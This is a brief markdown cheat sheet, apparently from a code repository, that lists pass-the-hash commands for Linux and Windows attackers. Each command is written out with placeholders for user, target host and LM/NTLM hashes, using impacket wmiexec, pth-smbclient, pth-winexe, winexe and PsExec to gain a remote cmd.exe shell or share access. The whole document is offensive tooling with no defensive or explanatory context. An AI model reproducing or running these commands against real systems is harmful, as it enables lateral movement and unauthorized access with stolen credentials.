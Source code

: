 # linux attacker

## pass the hash (wmiexec)

```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes <lmhash>:<ntlmhash> <user>@<rhost> cmd.exe
```

## pass the hash (smb; pth-smbclient)

```bash
pth-smbclient //<rhost>/<share(c$)> -U <PCNAME>/<user>%<lmhash>:<ntlmhash>
```

## pass the hash (pth-winexe)

```bash
pth-winexe -U <Administrator/user>%<lmhash>:<ntlmhash> //<rhost> cmd.exe
```

## pass the hash (winexe)

```bash
winexe -U '<administrator/user>%<lmhash>:<ntlmhash>' //<rhost> cmd.exe
```

# windows attacker

## pass the hash (psexec.exe)

```cmd
.\PsExec.exe -accepteula -u <administrator/user> -p <lmhash>:<ntlmhash> cmd.exe
```
